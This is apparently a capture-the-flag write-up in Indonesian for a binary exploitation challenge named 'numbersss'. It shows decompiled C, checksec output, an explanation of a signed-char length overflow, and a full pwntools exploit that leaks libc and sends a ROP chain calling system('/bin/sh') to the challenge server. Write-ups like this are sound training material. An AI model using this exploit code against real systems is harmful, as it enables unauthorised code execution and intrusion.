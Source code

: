 ```c
  for ( counter = 0; ; ++counter )
  {
    result = (unsigned __int8)length;
    if ( counter == length )
      break;
    read(0, &v1[counter], 1uLL);
  }
  return result;
}
```
Mari kita cek mitigasi yang ada di program tersebut dengan command `checksec`.
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
```
Challenge dari program ini sangat sederhana. Program melakukan pengecekan terhadap panjang variabel `&length`, jika panjangnya lebih dari 16 maka program akan exit. Terdapat `Out-of-Bounds (OOB)` vulnerability di fungsi `__isoc99_scanf("%hhd", &length);`. Karena tipe data variabel `&length` adalah `signed char` yang mempunyai range dari `-128 sampai dengan 127`, kita bisa memasukan angka `128` sehingga yang tersimpan pada memori adalah `-128`. Program akan membaca inputan kita dengan `read(0, &v1[counter], 1uLL); (byte by byte)`, jadi cukup melakukan Return-Oriented Programming (ROP) Chain `system('/bin/sh')` dengan tambahan instruksi assembly `ret` karena terdapat `Move Aligned Packed Single-Precision Floating-Point Values (MOVAPS)` di 64-bit ELF, kemudian payloadnya bisa difill dengan sembarang karakter sampai panjang payloadnya 128 untuk mendapatkan `Arbitrary Code Execution`.

#### POC
```python
#!/usr/bin/python3
from pwn import *
exe = './numbersss'
elf = context.binary = ELF(exe, checksec = 0)
context.log_level = 'debug'
host, port = "nc numbersss.chal.cyberjousting.com 1351".split(" ")[1:3]
io = remote(host, port)
sl = lambda a: io.sendline(a)
sla = lambda a, b: io.sendlineafter(a, b)
int16 = lambda a: int(a, 16)
rud = lambda a:io.recvuntil(a, drop=0x1)
lj = lambda a, b, c : a.ljust(b, c)
com = lambda: io.interactive()
libc = ELF("./libc.so.6", checksec = 0)
ld = ELF("./ld-linux.so", checksec = 0)

rud(b'Free junk: ')
leaked_printf = int16(rud(b'\n'))
libc.address = leaked_printf - libc.sym['printf']
sla(b'in?\n', b'128')
rop = ROP(libc)
rop.raw(cyclic(0x18))
rop.call(rop.ret.address)
rop.system(next(libc.search(b'/bin/sh\0')))
p = lj(rop.chain(), 128, b'\0')
sl(p)
com()
```
![chall-sc](https://hackmd.io/_uploads/r1UtvewmC.png)
